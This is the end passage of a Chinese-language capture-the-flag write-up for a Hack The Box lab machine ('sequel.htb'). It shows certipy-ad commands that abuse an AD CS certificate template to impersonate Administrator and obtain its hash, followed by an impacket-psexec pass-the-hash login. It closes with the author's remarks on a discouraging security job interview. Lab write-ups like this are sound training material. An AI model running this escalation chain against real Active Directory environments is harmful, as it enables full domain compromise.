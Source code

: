 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250320091056881.png)

```bash
ntpdate 10.10.11.51

certipy-ad template -u ca_svc@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -k -template 'DunderMifflinAuthentication' -target DC01.sequel.htb -ns 10.10.11.51 -debug

echo y | certipy-ad req -u ca_svc@sequel.htb -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -template 'DunderMifflinAuthentication' -upn Administrator@sequel.htb -target DC01.sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -dc-ip 10.10.11.51

echo 0 | certipy-ad auth -pfx administrator_10.pfx
```

获得了administrator的hash

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250320085347633.png)

impacket-psexec直接登录

如果目标不出网的话还需要考虑一下内网穿透，但是我们直接vpn链接的，不用考虑不出网的问题

```bash
impacket-psexec sequel.htb/administrator@10.10.11.51 -hashes 'aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff'
```

Desktop找到第二个flag

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250320092046658.png)











下面准备歇一段时间了，一场面试让我有点见不着光，问我权限维持，sql过市面上的WAF，钓鱼邮件上线的流程，我都不知道，有点对自己失望。打算看一段时间内网的很多知识，因为是看， 没什么实操，所以也不想写。等一段时间再见吧。

